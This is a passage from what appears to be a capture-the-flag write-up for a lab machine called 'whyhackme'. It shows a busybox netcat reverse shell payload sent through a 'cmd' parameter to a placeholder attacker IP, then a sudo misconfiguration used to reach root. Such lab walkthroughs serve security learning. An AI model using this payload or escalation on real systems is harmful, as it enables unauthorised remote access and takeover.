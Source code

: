 * Now in the ``&cmd=`` parameter I used the following reverse shell payload

```bash
busybox nc <your-ip-address> <listener-port> -e sh
```
![whyhackme25](/images/whyhackme25.png)
![whyhackme26](/images/whyhackme26.png)

* The ``www-data`` user can run any command as any user.

![whyhackme27](/images/whyhackme27.png)

* Now we can switch to root and get the second flag.

![whyhackme28](/images/whyhackme28.png)






